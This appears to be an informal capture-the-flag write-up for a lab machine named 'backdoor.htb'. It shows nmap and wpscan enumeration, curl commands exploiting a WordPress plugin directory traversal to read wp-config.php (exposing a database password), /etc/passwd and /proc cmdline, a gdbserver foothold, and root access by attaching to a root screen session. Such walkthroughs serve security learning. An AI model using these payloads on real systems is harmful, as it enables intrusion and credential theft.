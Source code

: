 1, nmap scan services and versions:
22/tcp ssh
80/tcp http
1337/tcp open  waste

2, enumerate the web contents and possible services
*powered by wordpress 5.8.1 (enumerate the Fragile plugins)
wp-admin - redirect to wp-login

try to use sql injection to login into admin(fail)

wpscan -e ap,t,tt,u --url http://backdoor.htb --api-token $WPSCAN_API

wpscan -e ap --plugins-detection aggressive --url http://backdoor.htb --api-token $WPSCAN_API

then we find :
ebook-download
 | Location: http://backdoor.htb/wp-content/plugins/ebook-download/
Title: Ebook Download < 1.2 - Directory Traversal
(https://www.exploit-db.com/exploits/39575)

Let's try to find something funny!!!

Poc: /wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php

then we can get the configurations , that is so cool
'DB_USER', 'wordpressuser'
'DB_PASSWORD', 'MQYBJSaD#DxG6qbm'
try to use this credit to ssh connect(not so lucky, so we have to check contine)

http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../../../../etc/passwd

we can get /ect/passwd:
user:x:1000:1000:user:/home/user:/bin/bash

Apache configs is something I can try to grab. /etc/apache2/sites-enabled/000-default.conf doesn’t returns anything, but backdoor.htb.conf

also nothing useful

3, come back to the wired 1337 port

In each numbered folder, the cmdline file has the command line user to run the process:

cat /proc/self/cmdline | xxd
00000000: 6361 7400 2f70 726f 632f 7365 6c66 2f63  cat./proc/self/c
00000010: 6d64 6c69 6e65 00                        mdline.

So let's try it into the machine

curl http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../../../../../proc/self/cmdline -o- | xxd

curl -s http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../../../../../proc/self/cmdline | tr '\000' ' ' | cut -c115- | rev | cut -c32- | rev


try to enumerate the cmdline of each pid, then we can find 851 pid take the host 0.0.0.0:1337 and open service - gdbserver 

851: /bin/sh -c while true;do su user -c "cd /home/user;gdbserver --once 0.0.0.0:1337 /bin/true;"; done

then we can search gdbserver exploits on hacktricks:
https://book.hacktricks.xyz/network-services-pentesting/pentesting-remote-gdbserver

finally we get the shell to this machine

4,Privilege Escalation

Let's list all of the running processes on the system using ps .
ps aux
then we can find that run with root right
/bin/sh -c while true;
    do sleep 1;
    find /var/run/screen/S-root/ -empty -exec screen -dmS root \;
done

Running screen -ls will show sessions for the current user:
No Sockets found in /run/screen/S-user.

screen -ls root/

There is a suitable screen on:
        947.root        (04/20/22 16:43:20)     (Multi, detached)
1 Socket in /run/screen/S-root.

connect to that session using -x and the [user]/[session id]

export TERM=screen
screen -x root/root

finally we can get the root shell !!!

